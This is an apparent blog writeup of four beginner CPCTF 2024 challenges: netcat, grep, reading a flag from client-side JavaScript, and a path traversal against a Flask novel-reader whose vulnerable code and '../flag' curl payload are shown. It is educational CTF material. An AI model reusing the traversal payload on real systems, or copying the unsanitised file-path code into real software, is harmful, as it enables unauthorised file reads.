 ```yaml
---
title: CPCTF 2024 Writeup
layout: post
date: 2024-04-21
permalink: cpctf-2024-writeup
category: ctf writeups
description: netcat, veeeeeery long text, Typing game and Read Novels challenges cpctf2024 writeup.
author: Inv1nc
---
```


![](assets/images/2024/24042101.png)

## Shell

### netcat

![](/assets/images/2024/24042102.png)

To connect via netcat:  

```shell
nc shell-netcat.web.cpctf.space 30010
```

**Flag : CPCTF{nc_means_netcat}**

### veeeeeery long text

![](/assets/images/2024/24042103.png)

After logging in via SSH with the provided credentials. The `flag.txt` is very long, extract the flag using `grep` :  

```shell
cat flag.txt | grep -o cpctf{.*}
```

**Flag : CPCTF{p1pe_15_u5efu1}**

### Web

#### Typing game

![](/assets/images/2024/24042104.png)

The Typing Game challenge requires typing 85 words within 10 seconds time limit to obtain the flag.  

However, the validation is done on the client side. By inspecting the JavaScript code (`main.js`), we can find the flag without actually completing the typing task.  

```shell
curl -s https://typing-game.web.cpctf.space/main.js | grep -o CPCTF{.*}
```

**Flag 	: CPCTF{y0u_4r3_4_typ1ng_m45t3r}**

#### Read Novels

![](/assets/images/2024/24042105.png)

In this challenge, we're given with a web application where we can explore different novels. The key here is understanding the application's backend functionality.  

By examining the provided Python code (`app.py`) and corresponding HTML template (`index.html`). We can easily discover a Potential vulnerability: *Path Traversal*

**index.html**

```html
<!DOCTYPE html>
<html>
<head>
    <title>ヨムカク</title>
</head>
<body>
    <h1>ヨムカク</h1>
    <p>お気に入りの小説を探してみましょう。</p>
{% for c in g %}
<p><a href="/novel?name={{ c.id }}">{{ c.name }}</a></p>
{% endfor %}
</body>
</html>
```

**app.py**
```python
@app.route('/novel', methods=['GET'])
def novel():
    name = request.args.get('name')
    filepath = './novel/' + name
    if os.path.exists(filepath) == False:
        return "File not found"
    if os.path.isfile(filepath) == False:
        return "Not a file"
    body = open(filepath, 'r').read()
    return render_template('novel.html', title=name, body=body)
```
 The application allows users to browse and read novels stored in the `./novel/` directory. However, a potential vulnerability exists due to the lack of proper input validation, allowing for Path Traversal attacks.

![](/assets/images/2024/24042106.png)

```shell
curl -s https://read-novels.web.cpctf.space/novel?name=../flag | grep -o CPCTF{.*}
```

**Flag : CPCTF{P4th_tr4v3rs41_15_v3ry_d4ng3r0u5}**
